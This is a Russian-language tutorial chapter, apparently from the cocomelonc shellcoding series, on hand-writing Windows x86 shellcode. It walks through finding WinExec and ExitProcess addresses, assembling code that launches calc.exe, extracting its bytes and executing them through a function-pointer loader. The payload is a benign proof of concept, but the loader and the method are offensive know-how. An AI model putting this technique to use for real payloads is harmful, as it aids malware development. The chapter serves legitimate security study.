\newpage
\subsection{10. Windows Shellcoding - Часть 1. Простой пример}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}          

В предыдущих разделах про shellcoding мы работали с примерами для Linux. В этом разделе моя цель - написать shellcode для Windows.        

### тестирование shellcode

При тестировании shellcode удобно просто вставить его в программу и запустить. Мы будем использовать тот же код, что и в первом посте (`run.c`):           
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

### первый пример. запуск calc.exe

Сначала мы напишем что-то вроде прототипа shellcode на C. Для простоты напишем следующий исходный код (`exit.c`): 
```cpp
/*
exit.c - run calc.exe and exit
*/
#include <windows.h>

int main(void) {
  WinExec("calc.exe", 0);
  ExitProcess(0);
}
```

Как видите, логика этой программы проста: запустить калькулятор (`calc.exe`) и выйти. Давайте убедимся, что наш код действительно работает. Компилируем:          
```bash
i686-w64-mingw32-gcc -o exit.exe exit.c -mconsole -lkernel32
```

{width="80%"}          

Затем запускаем на Windows (`Windows 7 x86 SP1`):              
```cmd
.\exit.exe
```

{width="80%"}          

Все работает отлично.           

Теперь попробуем записать эту логику на языке ассемблера. Ядро Windows полностью отличается от ядра Linux. В самом начале нашей программы мы подключаем `#include <windows.h>`, что означает, что библиотека Windows будет включена в код и динамически свяжет зависимости по умолчанию. Однако мы не можем сделать то же самое с ASM. В случае ASM нам нужно найти расположение функции [WinExec](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec), загрузить аргументы в стек и вызвать регистр, содержащий указатель на функцию. Точно так же для функции [ExitProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess). Важно знать, что большинство функций Windows доступны из трех основных библиотек: `ntdll.dll`, `Kernel32.DLL` и `KernelBase.dll`. Если запустить наш пример в отладчике (`x32dbg` в моем случае), можно в этом убедиться:          

{width="80%"}          

### поиск адресов функций

Нам нужно знать адрес `WinExec` в памяти. Найдем его!       

```cpp
/*
getaddr.c - get addresses of functions 
(ExitProcess, WinExec) in memory
*/
#include <windows.h>
#include <stdio.h>

int main() {
  unsigned long Kernel32Addr;      // kernel32.dll address
  unsigned long ExitProcessAddr;   // ExitProcess address
  unsigned long WinExecAddr;       // WinExec address

  Kernel32Addr = GetModuleHandle("kernel32.dll");
  printf("KERNEL32 address in memory: 0x%08p\n", Kernel32Addr);

  ExitProcessAddr = GetProcAddress(Kernel32Addr, "ExitProcess");
  printf("ExitProcess address in memory is: 0x%08p\n", ExitProcessAddr);

  WinExecAddr = GetProcAddress(Kernel32Addr, "WinExec");
  printf("WinExec address in memory is: 0x%08p\n", WinExecAddr);

  getchar();
  return 0;
}
```

Эта программа покажет вам адрес ядра и адрес `WinExec` в `kernel32.dll`. Компилируем:               
```bash
i686-w64-mingw32-gcc -O2 getaddr.c -o getaddr.exe \
-mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wall \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc >/dev/null 2>&1
```

{width="80%"}          

Запускаем на целевой машине:
```cmd
.\getaddr.exe
```

{width="80%"}          

Теперь мы знаем адреса наших функций. Обратите внимание, что наша программа правильно нашла адрес kernel32. 

### время ассемблера

Функция `WinExec()` в `kernel32.dll` может использоваться для запуска любой программы, к которой у пользователя есть доступ:
```cpp
UINT WinExec(LPCSTR lpCmdLine, UINT uCmdShow);
```

В нашем случае `lpCmdLine` равно `calc.exe`, а `uCmdShow` равно 1 (`SW_NORMAL`).        
Сначала конвертируем `calc.exe` в hex с помощью Python-скрипта (`conv.py`):

```python
# convert string to reversed hex
import sys

input = sys.argv[1]
chunks = [input[i:i+4] for i in range(0, len(input), 4)]
for chunk in chunks[::-1]:
    print (chunk[::-1].encode("utf-8").hex())
```

{width="80%"}          

Затем создаем наш ассемблерный код:
```nasm
xor  ecx, ecx         ; zero out ecx
push ecx              ; string terminator 0x00 for 
                      ; "calc.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x636c6163       ; clac : 636c6163

mov  eax, esp         ; save pointer to "calc.exe" 
                      ; string in ebx

; UINT WinExec([in] LPCSTR lpCmdLine, [in] UINT uCmdShow);
inc  ecx              ; uCmdShow = 1
push ecx              ; uCmdShow *ptr to stack in 
                      ; 2nd position - LIFO
push eax              ; lpcmdLine *ptr to stack in 
                      ; 1st position
mov  ebx, 0x76f0e5fd  ; call WinExec() function 
                      ; addr in kernel32.dll
call ebx
```

> Чтобы записать что-то в формате Little Endian, просто укажите байты в обратном порядке

Теперь разберемся с функцией `ExitProcess`:
```cpp
void ExitProcess(UINT uExitCode);
```

Эта функция используется для корректного завершения хост-процесса после запуска `calc.exe` с помощью `WinExec`:       
```nasm
; void ExitProcess([in] UINT uExitCode);
xor  eax, eax         ; zero out eax
push eax              ; push NULL
mov  eax, 0x76ed214f  ; call ExitProcess 
                      ; function addr in kernel32.dll
jmp  eax              ; execute the ExitProcess function
```

Итак, финальный код:

```nasm
; run calc.exe and normal exit
; author @cocomelonc
; nasm -f elf32 -o example1.o example1.asm
; ld -m elf_i386 -o example1 example1.o
; 32-bit linux (work in windows as shellcode)

section .data

section .bss

section .text
  global _start   ; must be declared for linker

_start:
  xor  ecx, ecx         ; zero out ecx
  push ecx              ; string terminator 0x00 
                        ; for "calc.exe" string
  push 0x6578652e       ; exe. : 6578652e
  push 0x636c6163       ; clac : 636c6163

  mov  eax, esp         ; save pointer to "calc.exe" 
                        ; string in ebx

  ; UINT WinExec([in] LPCSTR lpCmdLine, [in] UINT   uCmdShow);
  inc  ecx              ; uCmdShow = 1
  push ecx              ; uCmdShow *ptr to stack in 
                        ; 2nd position - LIFO
  push eax              ; lpcmdLine *ptr to stack in 
                        ; 1st position
  mov  ebx, 0x76f0e5fd  ; call WinExec() function 
                        ; addr in kernel32.dll
  call ebx

  ; void ExitProcess([in] UINT uExitCode);
  xor  eax, eax         ; zero out eax
  push eax              ; push NULL
  mov  eax, 0x76ed214f  ; call ExitProcess function 
                        ; addr in kernel32.dll
  jmp  eax              ; execute the ExitProcess function
```

Компилируем:
```bash
nasm -f elf32 -o example1.o example1.asm
ld -m elf_i386 -o example1 example1.o
objdump -M intel -d example1
```

{width="80%"}          

Затем извлекаем байт-код с помощью bash-скрипта и `objdump`:
```bash
objdump -M intel -d example1 | grep '[0-9a-f]:'|grep -v 
'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '| 
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'| 
sed 's/$/"/g'
```

{width="80%"}          

Наш байт-код:                      

```bash
"\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\6c
\x63\x89\xe0\x41\x51\x50\xbb\xfd\xe5\xf0\x76\xff
\xd3\x31\xc0\x50\xb8\x4f\x21\xed\x76\xff\xe0"
```

> Компилируем как ELF-файл для Linux 32-bit, так как мы используем `nasm` только для перевода в машинные коды.

Теперь заменяем код в `run.c` следующим:
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61"
"\x6c\x63\x89\xe0\x41\x51\x50\xbb\xfd\xe5\xf0"
"\x76\xff\xd3\x31\xc0\x50\xb8\x4f\x21\xed\x76"
"\xff\xe0";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Компилируем:
```bash
i686-w64-mingw32-gcc run.c -o run.exe
```

{width="80%"}          

Запускаем:
```cmd
.\run.exe
```

{width="80%"}          

> Процесс `calc.exe` остается активным даже после завершения хост-процесса, так как он запускается как отдельный процесс.            

Наш shellcode отлично работает! :)        

Вот так можно создать свой собственный shellcode для Windows.                         

Но есть одна проблема. Этот shellcode будет работать только на этой машине. Адреса всех DLL и их функций меняются при перезагрузке и различны для каждой системы. Чтобы shellcode работал на любой Windows 7 x86 SP1, необходимо, чтобы ASM сам находил адреса функций. Я реализую это в следующей части.

[WinExec](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec)                 
[ExitProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess)               
[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)              
[my intro to x86 assembly](https://cocomelonc.github.io/tutorial/2021/10/03/malware-analysis-1.html)          
[my nasm tutorial](https://cocomelonc.github.io/tutorial/2021/10/08/malware-analysis-2.html)           
[linux shellcoding part 1](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)                
[linux shellcoding part 2](https://cocomelonc.github.io/tutorial/2021/10/17/linux-shellcoding-2.html)                
[исходный код на Github](https://github.com/cocomelonc/2021-10-26-windows-shellcoding-1)        
